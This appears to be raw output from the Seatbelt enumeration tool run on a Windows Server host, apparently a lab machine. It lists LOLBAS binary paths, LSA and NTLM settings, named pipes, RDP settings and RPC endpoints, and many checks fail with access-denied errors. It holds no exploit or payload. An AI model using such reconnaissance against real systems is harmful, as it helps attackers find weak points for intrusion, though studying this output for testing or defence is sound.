Path: C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.20348.3692_none_2b4ba1ae01290cf9\f\wsl.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.20348.3692_none_2b4ba1ae01290cf9\r\wsl.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.20348.3692_none_2b4ba1ae01290cf9\f\wsl.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-s..e-client-ui-wsreset_31bf3856ad364e35_10.0.20348.2849_none_6eb9d4a038606d33\f\wsreset.exe
Path: C:\Windows\System32\WSReset.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-s..e-client-ui-wsreset_31bf3856ad364e35_10.0.20348.2849_none_6eb9d4a038606d33\WSReset.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-s..e-client-ui-wsreset_31bf3856ad364e35_10.0.20348.2849_none_6eb9d4a038606d33\f\WSReset.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-s..e-client-ui-wsreset_31bf3856ad364e35_10.0.20348.2849_none_6eb9d4a038606d33\r\WSReset.exe
Path: C:\Windows\System32\xwizard.exe
Path: C:\Windows\SysWOW64\xwizard.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-xwizard-host-process_31bf3856ad364e35_10.0.20348.1_none_e2630e57018a80f9\xwizard.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-xwizard-host-process_31bf3856ad364e35_10.0.20348.1_none_ecb7b8a935eb42f4\xwizard.exe
Path: C:\Windows\System32\zipfldr.dll
Path: C:\Windows\SysWOW64\zipfldr.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-zipfldr_31bf3856ad364e35_10.0.20348.3451_none_20751d046784bdd0\zipfldr.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-zipfldr_31bf3856ad364e35_10.0.20348.3451_none_2ac9c7569be57fcb\zipfldr.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-zipfldr_31bf3856ad364e35_10.0.20348.3451_none_20751d046784bdd0\f\zipfldr.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-zipfldr_31bf3856ad364e35_10.0.20348.3451_none_20751d046784bdd0\r\zipfldr.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-zipfldr_31bf3856ad364e35_10.0.20348.3451_none_2ac9c7569be57fcb\f\zipfldr.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-zipfldr_31bf3856ad364e35_10.0.20348.3451_none_2ac9c7569be57fcb\r\zipfldr.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-zipfldr_31bf3856ad364e35_10.0.20348.3451_none_20751d046784bdd0\f\zipfldr.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-zipfldr_31bf3856ad364e35_10.0.20348.3451_none_2ac9c7569be57fcb\f\zipfldr.dll
Found: 589 LOLBAS

To see how to use the LOLBAS that were found go to https://lolbas-project.github.io/
====== LSASettings ======

  auditbasedirectories           : 0
  auditbaseobjects               : 0
  Bounds                         : 00-30-00-00-00-20-00-00
  crashonauditfail               : 0
  fullprivilegeauditing          : 00
  LimitBlankPasswordUse          : 1
  NoLmHash                       : 1
  Security Packages              : ""
  Notification Packages          : rassfm,scecli
  Authentication Packages        : msv1_0
  LsaPid                         : 668
  LsaCfgFlagsDefault             : 0
  SecureBoot                     : 1
  ProductType                    : 7
  disabledomaincreds             : 0
  everyoneincludesanonymous      : 0
  forceguest                     : 0
  restrictanonymous              : 0
  restrictanonymoussam           : 1
  lmcompatibilitylevel           : 5
====== MappedDrives ======

ERROR:   [!] Terminating exception running command 'MappedDrives': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.MappedDrivesCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== McAfeeConfigs ======

====== McAfeeSiteList ======

ERROR:   [!] Terminating exception running command 'McAfeeSiteList': System.NullReferenceException: Object reference not set to an instance of an object.
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== MicrosoftUpdates ======

Enumerating *all* Microsoft updates

ERROR:   [!] Terminating exception running command 'MicrosoftUpdates': System.UnauthorizedAccessException: Creating an instance of the COM component with CLSID {B699E5E8-67FF-4177-88B0-3684A3388BFB} from the IClassFactory failed due to the following error: 80070005 Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED)).
   at System.RuntimeTypeHandle.CreateInstance(RuntimeType type, Boolean publicOnly, Boolean noCheck, Boolean& canBeCached, RuntimeMethodHandleInternal& ctor, Boolean& bNeedSecurityCheck)
   at System.RuntimeType.CreateInstanceSlow(Boolean publicOnly, Boolean skipCheckThis, Boolean fillCache, StackCrawlMark& stackMark)
   at System.Activator.CreateInstance(Type type, Boolean nonPublic)
   at System.Activator.CreateInstance(Type type)
   at Seatbelt.Commands.Windows.MicrosoftUpdateCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== NamedPipes ======

668,lsass,1c2fbc43b1220d57
1600,svchost,atsvc
912,svchost,epmapper
1196,svchost,eventlog
    SDDL         : O:LSG:LSD:P(A;;0x12019b;;;WD)(A;;CC;;;OW)(A;;0x12008f;;;S-1-5-80-880578595-1860270145-482643319-2788375705-1540778122)
508,wininit,InitShutdown
668,lsass,lsass
976,svchost,LSM_API_service
3048,dfssvc,netdfs
652,services,ntsvcs
0,Unk,PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
0,Unk,PSHost.134051978530225146.7060.DefaultAppDomain.wsmprovhost
3200,wsmprovhost,PSHost.134051979525779217.3200.DefaultAppDomain.wsmprovhost
2452,wsmprovhost,PSHost.134051980001223897.2452.DefaultAppDomain.wsmprovhost
2688,wsmprovhost,PSHost.134051993575067897.2688.DefaultAppDomain.wsmprovhost
6732,wsmprovhost,PSHost.134051999728858469.6732.DefaultAppDomain.wsmprovhost
4024,wsmprovhost,PSHost.134052000593971625.4024.DefaultAppDomain.wsmprovhost
4684,svchost,ROUTER
    SDDL         : O:SYG:SYD:P(A;;0x12019b;;;WD)(A;;0x12019b;;;AN)(A;;FA;;;SY)
668,lsass,RpcProxy\49922
    SDDL         : O:BAG:SYD:(A;;0x12019b;;;WD)(A;;0x12019b;;;AN)(A;;FA;;;BA)
912,svchost,RpcProxy\593
    SDDL         : O:NSG:NSD:(A;;0x12019b;;;WD)(A;;RC;;;OW)(A;;0x12019b;;;AN)(A;;FA;;;S-1-5-80-521322694-906040134-3864710659-1525148216-3451224162)(A;;FA;;;S-1-5-80-979556362-403687129-3954533659-2335141334-1547273080)
652,services,scerpc
2680,spoolsv,spoolss
2600,svchost,srvsvc
2832,svchost,tapsrv
2932,VGAuthService,vgauth-service
    SDDL         : O:BAG:SYD:P(A;;0x12019f;;;WD)(A;;FA;;;SY)(A;;FA;;;BA)
396,svchost,W32TIME_ALT
0,Unk,Winsock2\CatalogChangeListener-1fc-0
0,Unk,Winsock2\CatalogChangeListener-28c-0
0,Unk,Winsock2\CatalogChangeListener-29c-0
0,Unk,Winsock2\CatalogChangeListener-29c-1
0,Unk,Winsock2\CatalogChangeListener-390-0
0,Unk,Winsock2\CatalogChangeListener-3d0-0
0,Unk,Winsock2\CatalogChangeListener-4ac-0
0,Unk,Winsock2\CatalogChangeListener-640-0
0,Unk,Winsock2\CatalogChangeListener-a78-0
0,Unk,Winsock2\CatalogChangeListener-ac4-0
0,Unk,Winsock2\CatalogChangeListener-ae4-0
1776,svchost,wkssvc
====== NetworkProfiles ======

ERROR: Unable to collect. Must be an administrator.
====== NetworkShares ======

ERROR:   [!] Terminating exception running command 'NetworkShares': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.NetworkSharesCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== NTLMSettings ======

  LanmanCompatibilityLevel    : 5(Send NTLMv2 response only. DC: Refuse LM & NTLM)

  NTLM Signing Settings
      ClientRequireSigning    : False
      ClientNegotiateSigning  : True
      ServerRequireSigning    : True
      ServerNegotiateSigning  : True
      LdapSigning             : 1 (Negotiate signing)

  Session Security
      NTLMMinClientSec        : 536870912 (Require128BitKey)
      NTLMMinServerSec        : 536870912 (Require128BitKey)


  NTLM Auditing and Restrictions
      InboundRestrictions     : 2(Deny all accounts)
      OutboundRestrictions    : (Not defined)
      InboundAuditing         : (Not defined)
      OutboundExceptions      :
====== OfficeMRUs ======

Enumerating Office most recently used files for the last 7 days

  App       User                     LastAccess    FileName
  ---       ----                     ----------    --------
====== OneNote ======


    OneNote files (Administrator):


    OneNote files (jeremy.combs):


    OneNote files (svc_backup):


    OneNote files (svc_ldap):


    OneNote files (svc_winrm):


    OneNote files (todd.wolfe):


====== OptionalFeatures ======

ERROR:   [!] Terminating exception running command 'OptionalFeatures': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.OptionalFeaturesCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== OracleSQLDeveloper ======

====== OSInfo ======

ERROR:   [!] Terminating exception running command 'OSInfo': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.OSInfoCommand.IsVirtualMachine()
   at Seatbelt.Commands.Windows.OSInfoCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== OutlookDownloads ======

====== PoweredOnEvents ======

Collecting kernel boot (EID 12) and shutdown (EID 13) events from the last 7 days

Powered On Events (Time is local time)
ERROR:   [!] Terminating exception running command 'PoweredOnEvents': System.UnauthorizedAccessException: Attempted to perform an unauthorized operation.
   at System.Diagnostics.Eventing.Reader.EventLogException.Throw(Int32 errorCode)
   at System.Diagnostics.Eventing.Reader.NativeWrapper.EvtQuery(EventLogHandle session, String path, String query, Int32 flags)
   at System.Diagnostics.Eventing.Reader.EventLogReader..ctor(EventLogQuery eventQuery, EventBookmark bookmark)
   at Seatbelt.Runtime.GetEventLogReader(String path, String query)
   at Seatbelt.Commands.Windows.EventLogs.PoweredOnEventsCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== PowerShell ======

ERROR:   [!] Terminating exception running command 'PowerShell': System.FormatException: Input string was not in a correct format.
   at System.Number.StringToNumber(String str, NumberStyles options, NumberBuffer& number, NumberFormatInfo info, Boolean parseDecimal)
   at System.Number.ParseInt32(String s, NumberStyles style, NumberFormatInfo info)
   at Seatbelt.Commands.Windows.PowerShellCommand.<Execute>d__14.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== PowerShellEvents ======

Searching script block logs (EID 4104) for sensitive data.

ERROR:   [!] Terminating exception running command 'PowerShellEvents': System.UnauthorizedAccessException: Attempted to perform an unauthorized operation.
   at System.Diagnostics.Eventing.Reader.EventLogException.Throw(Int32 errorCode)
   at System.Diagnostics.Eventing.Reader.NativeWrapper.EvtQuery(EventLogHandle session, String path, String query, Int32 flags)
   at System.Diagnostics.Eventing.Reader.EventLogReader..ctor(EventLogQuery eventQuery, EventBookmark bookmark)
   at Seatbelt.Runtime.GetEventLogReader(String path, String query)
   at Seatbelt.Commands.Windows.EventLogs.PowerShellEventsCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== PowerShellHistory ======

====== Printers ======

ERROR:   [!] Terminating exception running command 'Printers': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.PrintersCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== ProcessCreationEvents ======

ERROR: Unable to collect. Must be an administrator.
====== Processes ======

Collecting Non Microsoft Processes (via WMI)

ERROR:   [!] Terminating exception running command 'Processes': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.ProcessesCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== ProcessOwners ======

ERROR:   [!] Terminating exception running command 'ProcessOwners': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.ProcessesOwnerCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== PSSessionSettings ======

ERROR: Unable to collect. Must be an administrator.
====== PuttyHostKeys ======

====== PuttySessions ======

====== RDCManFiles ======

====== RDPSavedConnections ======

====== RDPSessions ======

====== RDPsettings ======

RDP Server Settings:
  NetworkLevelAuthentication:
  BlockClipboardRedirection:
  BlockComPortRedirection:
  BlockDriveRedirection:
  BlockLptPortRedirection:
  BlockPnPDeviceRedirection:
  BlockPrinterRedirection:
  AllowSmartCardRedirection:

RDP Client Settings:
  DisablePasswordSaving: True
  RestrictedRemoteAdministration: False
====== RecycleBin ======

Recycle Bin Files Within the last 30 Days

====== reg ======

HKLM\Software ! (default) :
HKLM\Software\Classes ! (default) :
HKLM\Software\Clients ! (default) :
HKLM\Software\CVSM ! (default) :
HKLM\Software\DefaultUserEnvironment ! (default) :
HKLM\Software\Google ! (default) :
HKLM\Software\Intel ! (default) :
HKLM\Software\Microsoft ! (default) :
HKLM\Software\Mozilla ! (default) :
HKLM\Software\ODBC ! (default) :
HKLM\Software\OpenSSH ! (default) :
HKLM\Software\Partner ! (default) :
HKLM\Software\Policies ! (default) :
HKLM\Software\RegisteredApplications ! (default) :
HKLM\Software\Setup ! (default) :
HKLM\Software\VMware, Inc. ! (default) :
HKLM\Software\Windows ! (default) :
HKLM\Software\Wow6432Node ! (default) :
====== RPCMappedEndpoints ======

  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncacn_ip_tcp:[49934]
  f3f09ffd-fbcf-4291-944d-70ad6e0e73bb v1.0 (): ncalrpc:[LRPC-bbcf86e41eb4289fa0]
  bf4dc912-e52f-4904-8ebe-9317c1bdd497 v1.0 (): ncalrpc:[OLE229D7445E41F793AE87269F570CD]
  bf4dc912-e52f-4904-8ebe-9317c1bdd497 v1.0 (): ncalrpc:[LRPC-c5dcd6430055733529]
  a4b8d482-80ce-40d6-934d-b22a01a44fe7 v1.0 (LicenseManager): ncalrpc:[LicenseServiceEndpoint]
  897e2e5f-93f3-4376-9c9c-fd2277495c27 v1.0 (Frs2 Service): ncalrpc:[OLE5E3EDCEBCD789AD35E0BB251CCE9]
  897e2e5f-93f3-4376-9c9c-fd2277495c27 v1.0 (Frs2 Service): ncacn_ip_tcp:[57642]
  0767a036-0d22-48aa-ba69-b619480f38cb v1.0 (PcaSvc): ncalrpc:[LRPC-c6bc052a324c15492f]
  8ec21e98-b5ce-4916-a3d6-449fa428a007 v0.0 (): ncalrpc:[OLE928F0D7DF8E0F4C69378CD3075F0]
  8ec21e98-b5ce-4916-a3d6-449fa428a007 v0.0 (): ncalrpc:[LRPC-db8532530aea63223c]
  0fc77b1a-95d8-4a2e-a0c0-cff54237462b v0.0 (): ncalrpc:[OLE928F0D7DF8E0F4C69378CD3075F0]
  0fc77b1a-95d8-4a2e-a0c0-cff54237462b v0.0 (): ncalrpc:[LRPC-db8532530aea63223c]
  b1ef227e-dfa5-421e-82bb-67a6a129c496 v0.0 (): ncalrpc:[OLE928F0D7DF8E0F4C69378CD3075F0]
  b1ef227e-dfa5-421e-82bb-67a6a129c496 v0.0 (): ncalrpc:[LRPC-db8532530aea63223c]
  d8140e00-5c46-4ae6-80ac-2f9a76df224c v0.0 (): ncalrpc:[LRPC-68d3e459df309d13c3]
  d249bd56-4cc0-4fd3-8ce6-6fe050d590cb v0.0 (): ncalrpc:[LRPC-68d3e459df309d13c3]
  50abc2a4-574d-40b3-9d66-ee4fd5fba076 v5.0 (): ncacn_ip_tcp:[49950]
  650a7e26-eab8-5533-ce43-9c1dfce11511 v1.0 (Vpn APIs): ncacn_np:[\\PIPE\\ROUTER]
  650a7e26-eab8-5533-ce43-9c1dfce11511 v1.0 (Vpn APIs): ncalrpc:[RasmanLrpc]
  650a7e26-eab8-5533-ce43-9c1dfce11511 v1.0 (Vpn APIs): ncalrpc:[VpnikeRpc]
  650a7e26-eab8-5533-ce43-9c1dfce11511 v1.0 (Vpn APIs): ncalrpc:[LRPC-1b6d72325005df0329]
  2f5f6521-cb55-1059-b446-00df0bce31db v1.0 (Unimodem LRPC Endpoint): ncacn_np:[\\pipe\\tapsrv]
  2f5f6521-cb55-1059-b446-00df0bce31db v1.0 (Unimodem LRPC Endpoint): ncalrpc:[tapsrvlpc]
  2f5f6521-cb55-1059-b446-00df0bce31db v1.0 (Unimodem LRPC Endpoint): ncalrpc:[unimdmsvc]
  367abb81-9844-35f1-ad32-98f038001003 v2.0 (): ncacn_ip_tcp:[49939]
  76f226c3-ec14-4325-8a99-6a46348418af v1.0 (): ncalrpc:[WMsgKRpc0A2DA1]
  12e65dd8-887f-41ef-91bf-8d816c42c2e7 v1.0 (Secure Desktop LRPC interface): ncalrpc:[WMsgKRpc0A2DA1]
  509bc7ae-77be-4ee8-b07c-0d096bb44345 v1.0 (): ncalrpc:[OLE3236FD2FA95FE01F36DEB7A85C88]
  509bc7ae-77be-4ee8-b07c-0d096bb44345 v1.0 (): ncalrpc:[LRPC-38c34a8c496d33ea92]
  906b0ce0-c70b-1067-b317-00dd010662da v1.0 (): ncalrpc:[LRPC-b7dd71d00a66510e7b]
  906b0ce0-c70b-1067-b317-00dd010662da v1.0 (): ncalrpc:[LRPC-b7dd71d00a66510e7b]
  906b0ce0-c70b-1067-b317-00dd010662da v1.0 (): ncalrpc:[LRPC-b7dd71d00a66510e7b]
  906b0ce0-c70b-1067-b317-00dd010662da v1.0 (): ncalrpc:[OLE6E14806D09B2F01C8B725A89B950]
  906b0ce0-c70b-1067-b317-00dd010662da v1.0 (): ncalrpc:[LRPC-7c7c75645430035131]
  7df1ceae-de4e-4e6f-ab14-49636e7c2052 v1.0 (): ncalrpc:[LRPC-9b21c7eae2f3bf2b01]
  d4051bde-9cdd-4910-b393-4aa85ec3c482 v1.0 (): ncalrpc:[OLE9789830000451A5E6E7A069A916B]
  d4051bde-9cdd-4910-b393-4aa85ec3c482 v1.0 (): ncalrpc:[LRPC-1d1c2bd743fe1ab863]
  4c9dbf19-d39e-4bb9-90ee-8f7179b20283 v1.0 (): ncalrpc:[OLE9789830000451A5E6E7A069A916B]
  4c9dbf19-d39e-4bb9-90ee-8f7179b20283 v1.0 (): ncalrpc:[LRPC-1d1c2bd743fe1ab863]
  fd8be72b-a9cd-4b2c-a9ca-4ded242fbe4d v1.0 (): ncalrpc:[OLE9789830000451A5E6E7A069A916B]
  fd8be72b-a9cd-4b2c-a9ca-4ded242fbe4d v1.0 (): ncalrpc:[LRPC-1d1c2bd743fe1ab863]
  95095ec8-32ea-4eb0-a3e2-041f97b36168 v1.0 (): ncalrpc:[OLE9789830000451A5E6E7A069A916B]
  95095ec8-32ea-4eb0-a3e2-041f97b36168 v1.0 (): ncalrpc:[LRPC-1d1c2bd743fe1ab863]
  e38f5360-8572-473e-b696-1b46873beeab v1.0 (): ncalrpc:[OLE9789830000451A5E6E7A069A916B]
  e38f5360-8572-473e-b696-1b46873beeab v1.0 (): ncalrpc:[LRPC-1d1c2bd743fe1ab863]
  d22895ef-aff4-42c5-a5b2-b14466d34ab4 v1.0 (): ncalrpc:[OLE9789830000451A5E6E7A069A916B]
  d22895ef-aff4-42c5-a5b2-b14466d34ab4 v1.0 (): ncalrpc:[LRPC-1d1c2bd743fe1ab863]
  98cd761e-e77d-41c8-a3c0-0fb756d90ec2 v1.0 (): ncalrpc:[OLE9789830000451A5E6E7A069A916B]
  98cd761e-e77d-41c8-a3c0-0fb756d90ec2 v1.0 (): ncalrpc:[LRPC-1d1c2bd743fe1ab863]
  1d45e083-478f-437c-9618-3594ced8c235 v1.0 (): ncalrpc:[OLE9789830000451A5E6E7A069A916B]
  1d45e083-478f-437c-9618-3594ced8c235 v1.0 (): ncalrpc:[LRPC-1d1c2bd743fe1ab863]
  b58aa02e-2884-4e97-8176-4ee06d794184 v1.0 (): ncalrpc:[LRPC-cf2a1962cae497aa41]
  12345678-1234-abcd-ef00-0123456789ab v1.0 (): ncalrpc:[LRPC-1ed5a357a0f9d9297a]
  12345678-1234-abcd-ef00-0123456789ab v1.0 (): ncacn_ip_tcp:[49923]
  0b6edbfa-4a24-4fc6-8a23-942b1eca65d1 v1.0 (): ncalrpc:[LRPC-1ed5a357a0f9d9297a]
  0b6edbfa-4a24-4fc6-8a23-942b1eca65d1 v1.0 (): ncacn_ip_tcp:[49923]
  ae33069b-a2a8-46ee-a235-ddfd339be281 v1.0 (): ncalrpc:[LRPC-1ed5a357a0f9d9297a]
  ae33069b-a2a8-46ee-a235-ddfd339be281 v1.0 (): ncacn_ip_tcp:[49923]
  4a452661-8290-4b36-8fbe-7f4093a94978 v1.0 (): ncalrpc:[LRPC-1ed5a357a0f9d9297a]
  4a452661-8290-4b36-8fbe-7f4093a94978 v1.0 (): ncacn_ip_tcp:[49923]
  76f03f96-cdfd-44fc-a22c-64950a001209 v1.0 (): ncalrpc:[LRPC-1ed5a357a0f9d9297a]
  76f03f96-cdfd-44fc-a22c-64950a001209 v1.0 (): ncacn_ip_tcp:[49923]
  98716d03-89ac-44c7-bb8c-285824e51c4a v1.0 (XactSrv service): ncalrpc:[LRPC-1981e6f12686fdccdd]
  1a0d010f-1c33-432c-b0f5-8cf4e8053099 v1.0 (IdSegSrv service): ncalrpc:[LRPC-1981e6f12686fdccdd]
  26268c86-e770-433e-86ef-5f3ba6731fba v1.0 (): ncalrpc:[OLE337A95256DA9D77514595CEC7C4C]
  26268c86-e770-433e-86ef-5f3ba6731fba v1.0 (): ncalrpc:[LRPC-9b623063704dbea869]
  b18fbab6-56f8-4702-84e0-41053293a869 v1.0 (UserMgrCli): ncalrpc:[OLE12E0EFA228A083EFBD4AF63F478E]
  b18fbab6-56f8-4702-84e0-41053293a869 v1.0 (UserMgrCli): ncalrpc:[LRPC-c302c898acb11e6264]
  0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 (UserMgrCli): ncalrpc:[OLE12E0EFA228A083EFBD4AF63F478E]
  0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 (UserMgrCli): ncalrpc:[LRPC-c302c898acb11e6264]
  552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 (IP Transition Configuration endpoint): ncalrpc:[LRPC-cfdd5b5bc7ec0839ea]
  2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 (Proxy Manager provider server endpoint): ncalrpc:[LRPC-cfdd5b5bc7ec0839ea]
  2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 (Proxy Manager provider server endpoint): ncalrpc:[TeredoDiagnostics]
  2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 (Proxy Manager provider server endpoint): ncalrpc:[TeredoControl]
  c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 (Adh APIs): ncalrpc:[LRPC-cfdd5b5bc7ec0839ea]
  c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 (Adh APIs): ncalrpc:[TeredoDiagnostics]
  c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 (Adh APIs): ncalrpc:[TeredoControl]
  c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 (Proxy Manager client server endpoint): ncalrpc:[LRPC-cfdd5b5bc7ec0839ea]
  c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 (Proxy Manager client server endpoint): ncalrpc:[TeredoDiagnostics]
  c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 (Proxy Manager client server endpoint): ncalrpc:[TeredoControl]
  abfb6ca3-0c5e-4734-9285-0aee72fe8d1c v1.0 (): ncalrpc:[OLE3D032A478261CE799E6A381B42FE]
  abfb6ca3-0c5e-4734-9285-0aee72fe8d1c v1.0 (): ncalrpc:[LRPC-96cf287be5f2becc1e]
  b37f900a-eae4-4304-a2ab-12bb668c0188 v1.0 (): ncalrpc:[OLE3D032A478261CE799E6A381B42FE]
  b37f900a-eae4-4304-a2ab-12bb668c0188 v1.0 (): ncalrpc:[LRPC-96cf287be5f2becc1e]
  f44e62af-dab1-44c2-8013-049a9de417d6 v1.0 (): ncalrpc:[OLE3D032A478261CE799E6A381B42FE]
  f44e62af-dab1-44c2-8013-049a9de417d6 v1.0 (): ncalrpc:[LRPC-96cf287be5f2becc1e]
  c2d1b5dd-fa81-4460-9dd6-e7658b85454b v1.0 (): ncalrpc:[OLE3D032A478261CE799E6A381B42FE]
  c2d1b5dd-fa81-4460-9dd6-e7658b85454b v1.0 (): ncalrpc:[LRPC-96cf287be5f2becc1e]
  13560fa9-8c09-4b56-a1fd-04d083b9b2a1 v1.0 (): ncalrpc:[OLE3D032A478261CE799E6A381B42FE]
  13560fa9-8c09-4b56-a1fd-04d083b9b2a1 v1.0 (): ncalrpc:[LRPC-96cf287be5f2becc1e]
  dd490425-5325-4565-b774-7e27d6c09c24 v1.0 (Base Firewall Engine API): ncalrpc:[LRPC-4bc2ddb9c920d44b73]
  7f9d11bf-7fb9-436b-a812-b2d50c5d4c03 v1.0 (Fw APIs): ncalrpc:[LRPC-4bc2ddb9c920d44b73]
  7f9d11bf-7fb9-436b-a812-b2d50c5d4c03 v1.0 (Fw APIs): ncalrpc:[LRPC-557547400e6d845e25]
  f47433c3-3e9d-4157-aad4-83aa1f5c2d4c v1.0 (Fw APIs): ncalrpc:[LRPC-4bc2ddb9c920d44b73]
  f47433c3-3e9d-4157-aad4-83aa1f5c2d4c v1.0 (Fw APIs): ncalrpc:[LRPC-557547400e6d845e25]
  f47433c3-3e9d-4157-aad4-83aa1f5c2d4c v1.0 (Fw APIs): ncalrpc:[LRPC-3115fe80d4dfd02606]
  2fb92682-6599-42dc-ae13-bd2ca89bd11c v1.0 (Fw APIs): ncalrpc:[LRPC-4bc2ddb9c920d44b73]
  2fb92682-6599-42dc-ae13-bd2ca89bd11c v1.0 (Fw APIs): ncalrpc:[LRPC-557547400e6d845e25]
  2fb92682-6599-42dc-ae13-bd2ca89bd11c v1.0 (Fw APIs): ncalrpc:[LRPC-3115fe80d4dfd02606]
  2fb92682-6599-42dc-ae13-bd2ca89bd11c v1.0 (Fw APIs): ncalrpc:[LRPC-fbcb2279038d125804]
  3473dd4d-2e88-4006-9cba-22570909dd10 v5.1 (WinHttp Auto-Proxy Service): ncalrpc:[LRPC-385d3b4872a58bc0c9]
  3473dd4d-2e88-4006-9cba-22570909dd10 v5.1 (WinHttp Auto-Proxy Service): ncalrpc:[d2826d3a-6ef1-4863-8fe7-336b47d27811]
  f2c9b409-c1c9-4100-8639-d8ab1486694a v1.0 (Witness Client Upcall Server): ncalrpc:[LRPC-c02e308bc1658d9be4]
  eb081a0d-10ee-478a-a1dd-50995283e7a8 v3.0 (Witness Client Test Interface): ncalrpc:[LRPC-c02e308bc1658d9be4]
  7f1343fe-50a9-4927-a778-0c5859517bac v1.0 (DfsDs service): ncalrpc:[LRPC-c02e308bc1658d9be4]
  7f1343fe-50a9-4927-a778-0c5859517bac v1.0 (DfsDs service): ncacn_np:[\\PIPE\\wkssvc]
  0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53 v1.0 (): ncalrpc:[LRPC-464d303499bcef7db8]
